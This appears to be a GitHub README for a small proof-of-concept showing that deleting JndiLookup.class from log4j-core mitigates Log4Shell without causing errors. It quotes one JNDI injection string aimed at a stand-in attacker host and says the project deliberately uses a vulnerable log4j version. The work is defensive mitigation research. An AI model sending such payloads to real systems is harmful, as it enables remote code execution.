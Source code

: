 # Log4ShadeMitigationPoC

This is a small concept project with the aim to experiment and understand the Log4Shell vulnerability, known as [CVE-2021-44228](https://www.govcert.ch/blog/zero-day-exploit-targeting-popular-java-library-log4j/).

In particular, it aims to prove that the mitigation proposed for versions 2.0 - 2.9, namely removing the org/apache/logging/log4j/core/lookup/JndiLookup.class file from the log4j-core-2.\*.jar, is viable, unproblematic and actually preferable for *every* version of log4j-core-2.

What it shows is that if a) the JDNI lookup functionality is triggered, either by an attacker or by normal usage and b) the class file is missing (because an administrator removed it) *everything works*. There's no error whatsoever; one would expect ClassNotFoundException or NoClassDefFoundError, but what actually happens is that the program happily works, writing the requested output (e.g. "${jndi:ldap://bad.guy.domain:389/evilcode}") in the log file without any processing.

**Which for the vast majority of software is exactly what we want**.

### Note for vulnerability scanners
Yes I know this code is using a vulnerable version of Log4J. This is by intention as you can read directly above.
